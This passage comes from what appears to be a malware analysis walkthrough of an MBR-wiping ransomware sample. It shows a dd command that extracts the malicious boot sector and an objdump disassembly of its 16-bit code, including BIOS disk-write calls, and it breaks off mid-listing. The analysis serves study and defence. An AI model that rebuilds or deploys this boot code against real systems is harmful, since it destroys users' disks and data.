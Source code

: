 Note that the final bytes are `55 aa`, the [magic](https://medium.com/@shirshakupadhayay182/the-magic-number-0xaa55-in-a-bootloader-e38ebe65bf63) [bytes](https://www.minuszerodegrees.net/manuals/IBM_5170_Technical_Reference_1502243_MAR84.pdf) for MBR boot code. We can also see the ransom note in cleartext. This confirms that bytes 0x3220 - 0x3420 contain the MBR.

To isolate the boot code, use *dd* and extract it to *wg.raw*:

```
dd if=wg.exe of=wg-bootcode.raw bs=1 skip=$((0x3220)) count=$((0x200))
```

At this point, you could apply the boot code to a RAW image and try it out yourself. To [supplement this walkthrough](https://github.com/halcyondream/MBR-Malware-Analysis), I've shared a script that will simulate the outcome in QEMU, then dump the results for analysis. You can adjust the parameters to see how hard disks of different sizes are affected after *N* seconds (default 5 seconds over 10MB).

For now, you should convince yourself that malware will corrupt the hard drive. On to static analysis.

# Analyzing the malicious boot code

Now we can disassemble only the 16-bit bootcode:

```
$ objdump -D -b binary \
	-mi386 \
	-Maddr16,data16,intel \
	wg-bootcode.raw

wg-bootcode.raw:     file format binary


Disassembly of section .data:

00000000 <.data>:
   0:	eb 00                	jmp    0x2
   2:	8c c8                	mov    ax,cs
   4:	8e d8                	mov    ds,ax
   6:	be 88 7c             	mov    si,0x7c88
   9:	e8 00 00             	call   0xc
   c:	50                   	push   ax
   d:	fc                   	cld
   e:	8a 04                	mov    al,BYTE PTR [si]
  10:	3c 00                	cmp    al,0x0
  12:	74 06                	je     0x1a
  14:	e8 05 00             	call   0x1c
  17:	46                   	inc    si
  18:	eb f4                	jmp    0xe
  1a:	eb 05                	jmp    0x21
  1c:	b4 0e                	mov    ah,0xe
  1e:	cd 10                	int    0x10
  20:	c3                   	ret
  21:	8c c8                	mov    ax,cs
  23:	8e d8                	mov    ds,ax
  25:	a3 78 7c             	mov    ds:0x7c78,ax
  28:	66 c7 06 76 7c 82 7c 	mov    DWORD PTR ds:0x7c76,0x7c82
  2f:	00 00 
  31:	b4 43                	mov    ah,0x43
  33:	b0 00                	mov    al,0x0
  35:	8a 16 87 7c          	mov    dl,BYTE PTR ds:0x7c87
  39:	80 c2 80             	add    dl,0x80
  3c:	be 72 7c             	mov    si,0x7c72
  3f:	cd 13                	int    0x13
  41:	72 02                	jb     0x45
  43:	73 18                	jae    0x5d
```